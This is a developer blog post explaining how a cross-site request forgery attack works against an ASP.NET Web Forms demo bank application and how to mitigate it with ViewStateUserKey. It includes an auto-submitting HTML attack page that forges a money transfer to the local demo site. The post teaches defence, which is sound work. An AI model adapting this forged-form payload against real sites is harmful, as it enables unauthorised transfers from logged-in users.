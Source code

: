 ```yaml
---
layout: post
title: CSRF Attacks and Web Forms
date: 2009-04-02 -0800
comments: true
disqus_identifier: 18606
categories:
- asp.net
redirect_from: "/archive/2009/04/01/csrf-webforms.aspx/"
---
```


In [my last blog
post](http://haacked.com/archive/2009/04/02/anatomy-of-csrf-attack.aspx "Anatomy of a CSRF attack"),
I walked step by step through a [Cross-site request
forgery](http://en.wikipedia.org/wiki/CSRF "CSRF on Wikipedia") (CSRF)
attack against an ASP.NET MVC web application. This attack is the result
of how browsers handle cookies and cross domain form posts and is not
specific to any one web platform. Many web platforms thus include their
own mitigations to the problem.

It might seem that if you’re using Web Forms, you’re automatically safe
from this attack. While Web Forms has many mitigations turned on by
default, it turns out that it does not automatically protect your site
against this specific form of attack.

In the same [sample bank transfer
application](http://code.haacked.com/mvc-2/CsrfDemo.zip "Bank Transfer CSRF Demo")
I provided in the last post, I also included an example written using
Web Forms which demonstrates the CSRF attack. After you log in to the
site, you can navigate to `/BankWebForm/default.aspx` to try out the Web
Form version of the transfer money page. it works just like the MVC
version.

To simulate the attack, make sure you are running the sample application
locally and make sure you are logged in and then click on
[http://haacked.com/demos/csrf-webform.html](http://demo.haacked.com/security/csrf-webform.html "CSRF for Web Form Demo").

Here’s the code for that page:

```csharp
<html xmlns="http://www.w3.org/1999/xhtml" >
<head>
    <title></title>
</head>
<body>
  <form name="badform" method="post"
    action="http://localhost:54607/BankWebForm/Default.aspx">
    <input type="hidden" name="ctl00$MainContent$amountTextBox"
      value="1000" />
    <input type="hidden" name="ctl00$MainContent$destinationAccountDropDown"
      value="2" />
    <input type="hidden" name="ctl00$MainContent$submitButton"
      value="Transfer" />
    <input type="hidden" name="__EVENTTARGET" id="__EVENTTARGET"
      value="" />
    <input type="hidden" name="__EVENTARGUMENT" id="__EVENTARGUMENT"
      value="" />
    <input type="hidden" name="__VIEWSTATE" id="__VIEWSTATE"
      value="/wEP...0ws8kIw=" />
    <input type="hidden" name="__EVENTVALIDATION" id="__EVENTVALIDATION"
      value="/wEWBwK...+FaB85Nc" />
    </form>
    <script type="text/javascript">
        document.badform.submit();
    </script>
</body>
</html>
```

It’s a bit more involved, but it does the trick. It mocks up all the
proper hidden fields required to execute a bank transfer on my silly
demo site.

The mitigation for this attack is pretty simple and described thoroughly
in this [this article by Dino
Esposito](http://msdn.microsoft.com/en-us/library/ms972969.aspx "Take Advantage of ASP.NET Built-in Features to Fend Off Web Attacks")
as well as this [post by Scott
Hanselman](http://www.hanselman.com/blog/ViewStateUserKeyMakesViewStateMoreTamperresistant.aspx%20 "ViewState").
The change I made to my code behind based on Dino’s recommendation is
the following:

```csharp
protected override void OnInit(EventArgs e) {
  ViewStateUserKey = Session.SessionID;
  base.OnInit(e);
}
```

With this change in place, the CSRF attack I put in place no longer
works.

When you go to a real bank site, you’ll learn they have all sorts of
protections in place above and beyond what I described here. Hopefully
this post and the previous one provided some insight into why they do
all the things they do. :)

Technorati Tags:
[asp.net](http://technorati.com/tags/asp.net),[security](http://technorati.com/tags/security)


